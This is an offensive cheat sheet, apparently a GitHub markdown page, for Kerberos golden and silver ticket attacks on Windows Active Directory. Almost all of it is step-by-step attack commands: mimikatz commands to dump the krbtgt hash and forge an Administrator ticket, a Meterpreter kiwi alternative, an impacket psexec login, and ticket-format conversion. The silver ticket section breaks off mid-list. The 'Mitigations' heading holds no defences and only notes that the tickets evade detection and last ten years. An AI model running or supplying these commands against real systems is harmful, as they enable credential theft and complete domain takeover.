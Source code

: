 # GOLDEN TICKET

## Dump krbtgt hash to own the entire domain!

#### 1) mimikatz.exe

#### 2) privilege::debug

#### 3) lsadump::lsa /inject /name:krbtgt

#### 4) lsadump::lsa /patch

#### 5) lsadump::trust /patch

#### 6) lsadump::dcsync /user:krbtgt

#### 7) kerberos::purge

#### 8) kerberos::golden /user:Administrator /domain:domain.local /sid:SID /krbtgt:NTLM HASH /id:500(Admin) or 1103(Service)

#### 9) kerberos::tgt

#### 10) misc::cmd

## Alternate method: Meterpreter shell

### Get information for golden ticket

#### 1) dcsync_ntlm krbtgt

#### 2) dcsync krbtgt

### Forge a Golden Ticket

#### 3) load kiwi

#### 4) golden_ticket_create -d DOMAIN_NAME -k NTLM_HASH_OF_KRBTGT -s SID -u Administrator

#### 5) kerberos_ticket_purge

#### 6) kerberos_ticket_use /root/Downloads/Administrator.tck

#### 7) kerberos_ticket_list

### Authenticate with psexec impacket (Linux)

#### 8) ./psexec.py -k -no-pass -dc-ip 192.168.1.1 AD/administrator@192.168.1.100

# SILVER TICKET

#### 1) mimikatz.exe

#### 2) privilege::debug

#### 3) lsadump::lsa /inject /name:SERVICE/DOMAIN ADMIN


# Golden Ticket

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `lsadump::dcsync /domain:eagle.local /user:krbtgt`           | Command used in `mimikatz` to DCSync and dump the `krbtgt` password hash |
| `Get-DomainSID`                                              | Cmdlet from `PowerView` used to obtain the SID value of the domain. |
| `golden /domain:eagle.local /sid:<domain sid> /rc4:<rc4 hash> /user:Administrator /id:500 /renewmax:7 /endin:8 /ptt` | Command used in `mimikatz` to forge a golden ticket for the `Administrator` account and pass the ticket to the current session |
| `klist`                                                      | Command line utility in Windows to display the contents of the Kerberos ticket cache. |


## TIP: If you need to swap ticket between Windows and Linux, you need to convert them with ticket_converter or kekeo .

### 1) Kekeo

 - misc::convert ccache ticket.kirbi

 - misc::convert kirbi ticket.ccache

### 2) Impacket ticket_converter

 - python ticket_converter.py velociraptor.ccache velociraptor.kirbi

 - python ticket_converter.py velociraptor.kirbi velociraptor.ccache

## MITIGATIONS

### 1) Hard to detect because they are legit TGT tickets

### 2) Mimikatz generates a golden ticket with a life-span of 10 years
